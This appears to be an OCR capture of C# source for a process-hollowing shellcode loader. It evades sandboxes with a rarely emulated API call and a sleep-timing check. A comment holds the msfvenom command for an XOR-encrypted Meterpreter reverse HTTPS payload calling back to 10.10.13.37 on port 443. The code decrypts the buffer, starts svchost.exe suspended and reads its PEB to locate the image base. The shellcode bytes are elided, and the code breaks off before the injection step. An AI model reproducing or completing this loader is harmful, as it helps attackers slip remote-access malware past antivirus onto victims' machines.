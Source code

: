 ```csharp

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            // Create the target process (e.g., svchost.exe) in a suspended state
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);

            // Query created process to extract its base address pointer from PEB (Process Environment Block)
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, ProcessBasicInformation, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            // Pointer to the base address of the EXE image: BASE_ADDR_PTR = PEB_ADDR + 0x10
            IntPtr ptrImageBaseAddress = (IntPtr)((Int64)bi.PebAddress + 0x10);

            // Read 8 bytes of memory (IntPtr.Size is 8 bytes for x64) pointed by the image base address pointer (ptrImageBaseAddress) in order to get the actual value of the image base address
            byte[] baseAddressBytes = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrImageBaseAddress, baseAddressBytes, baseAddressBytes.Length, out nRead);
            // We're got bytes as a result of memory read, then converted them to Int64 and casted to IntPtr
            IntPtr imageBaseAddress = (IntPtr)(BitConverter.ToInt64(baseAddressBytes, 0));
```